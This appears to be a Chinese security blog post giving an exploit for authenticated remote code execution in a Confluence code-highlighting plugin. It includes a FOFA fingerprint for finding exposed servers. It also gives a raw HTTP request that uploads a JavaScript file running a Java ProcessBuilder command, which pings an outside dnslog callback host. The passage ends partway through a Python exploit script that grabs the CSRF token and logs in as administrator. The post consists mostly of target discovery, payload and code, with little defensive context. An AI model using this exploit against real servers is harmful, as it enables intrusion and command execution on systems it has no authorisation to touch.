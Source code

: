 FOFA指纹：  
icon_hash="-305179312"  
界面是这个酱紫  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zHibqAQoXRagkCHQ8JSCByLEo7XK6GOFTHjfdODnpq7YL4Libcz4IMSahWAiaOStJQ2b7MfLQ3aXkfljkryfDExsw/640?wx_fmt=png&from=appmsg "")  
  
当然是有前提条件，需要有个账号：其他数据包就不放了，执行github上的脚本命令会直接挂到burp就能看到  
```
POST /admin/plugins/newcode/addlanguage.action HTTP/2
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 372
Content-Type: multipart/form-data; boundary=f6dae662e22371daece5ff851b1c4a39

--f6dae662e22371daece5ff851b1c4a39
Content-Disposition: form-data; name="newLanguageName"

test
--f6dae662e22371daece5ff851b1c4a39
Content-Disposition: form-data; name="languageFile"; filename="exploit.js"
Content-Type: text/javascript

new java.lang.ProcessBuilder["(java.lang.String[])"](["ping 5hnlyo.dnslog.cn"]).start()
--f6dae662e22371daece5ff851b1c4a39--

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/zHibqAQoXRagkCHQ8JSCByLEo7XK6GOFTXTzWtMf6WhVM9y6icWOc6GnhkqnBNEvQeqfN06rLeuiav7Z8ByFEU0nQ/640?wx_fmt=png&from=appmsg "")  
  
EXP如下：（这里利用github写好的脚本）  
```
import argparse
import os

import requests
from bs4 import BeautifulSoup

def GeyAltToken(url, proxy, session):
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36"
    }
    alttoken_url = f"{url}/admin/plugins/newcode/configure.action"
    resp = session.get(url=alttoken_url, headers=headers, verify=False, proxies=proxy, timeout=20)
    if "atlassian-token" in resp.text:
        soup = BeautifulSoup(resp.text, 'html.parser')
        meta_tag = soup.find('meta', {'id': 'atlassian-token', 'name': 'atlassian-token'})
        if meta_tag:
            content_value = meta_tag.get('content')
            return content_value

        else:
            print("Meta tag not found")

def LoginAsAdministrator(session, url, proxy, username, password):
    login_url = url + "/dologin.action"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
```